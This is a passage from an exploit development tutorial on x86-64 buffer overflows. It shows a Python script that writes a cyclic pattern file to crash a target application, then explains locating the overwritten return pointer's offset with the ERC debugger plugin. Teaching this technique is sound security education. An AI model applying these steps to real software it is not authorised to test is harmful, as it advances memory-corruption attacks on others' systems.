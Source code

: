 We can add this into our exploit code, so it looks like the following:
```
f = open("crash-2.txt", "wb")  
  
buf = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"  
buf += b"9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8"  
buf += b"Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A"  
buf += b"i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al"  
buf += b"7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6"  
buf += b"Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5A"  
buf += b"r6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au"  
buf += b"5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4"  
buf += b"Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3B"  
buf += b"a4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd"  
buf += b"3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2"  
buf += b"Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"  
  
f.write(buf)  
f.close()  
```

Run the python program and pass the created file (crash-2.txt) to the application again. It should cause a crash. Run the following command to find out how far into the pattern the return pointer was overwritten. Due to the fact that RIP will not load a non-canonical address we will not be able to use the FindNRP command to identify where the return pointer was overwritten. As such we can copy the value out that the return pointer has been overwritten with and pass it to the pattern offset command.

<p align="center"><img src="/images/basics-of-exploit-development-5-x86-64-buffer-overflows/nrp_overwrite.PNG"/></p>    
<p align="center"><i>Return pointer overwritten with non-repeating pattern.</i></p>

The value `3978413878413778` seen in the image above converted to ascii is `9xA8xA7x` we can use this with the pattern offset command to identify how far into our input string the return pointer was overwritten.

**Command:**
ERC --pattern o 9xA8xA7x

<p align="center"><img src="/images/basics-of-exploit-development-5-x86-64-buffer-overflows/Pattern_Offset.PNG"/></p>    
<p align="center"><i>Pattern offset identifying the location the return pointer was overwritten.</i></p>
